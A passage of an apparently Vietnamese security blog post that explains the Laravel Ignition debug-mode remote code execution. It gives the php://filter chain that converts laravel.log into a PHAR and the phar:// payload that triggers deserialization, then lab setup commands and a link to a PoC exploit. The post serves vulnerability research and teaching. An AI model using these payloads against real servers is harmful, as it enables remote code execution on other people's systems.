 #### Bước 4: Convert file log sang file PHAR

```php
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

Chú ý, ở bước này có thể sử dụng `utf-16le` hoặc `utf-16be`, tuỳ theo các nào được nhé

> Mình sử dụng cách này để xóa log, khi mà nó hoạt động chính xác, sẽ k tìm thấy đoạn base64 nào cả nên output trả về là không có gì, thành ra xóa được log. Gửi request 1 lần k được thì thử vài lần xem sao nhé.

#### Bước 5: Chạy PHAR deserialization

```php
viewFile: phar:///path/to/storage/logs/laravel.log
```

Và ta được thành quả

![](https://images.viblo.asia/d5d7bbc8-a105-402b-8056-e35dcb1432e6.png)

# Exploit PoC
Nếu ai muốn thử nghiệm thì đợi mình build xong Docker rồi chạy nhé, tạm thời dùng tạm cái này đã nha 
```bash
$ git clone https://github.com/laravel/laravel.git
$ cd laravel
$ git checkout e849812
$ composer install
$ composer require facade/ignition==2.5.1
$ php artisan serve
```
Chúng mình có viết xong PoC exploit ở đây, hi vọng có ích cho mọi người ;)

Github: https://github.com/khanhnv-2091/laravel-8.4.2-rce

Cảm ơn anh @vigov5 và @com0tf3 đã hỗ trợ nghiên cứu CVE này.
# Tham khảo
- https://www.ambionics.io/blog/laravel-debug-rce

> Bài chưa hết ở đây  nhớ, còn phần 2 :D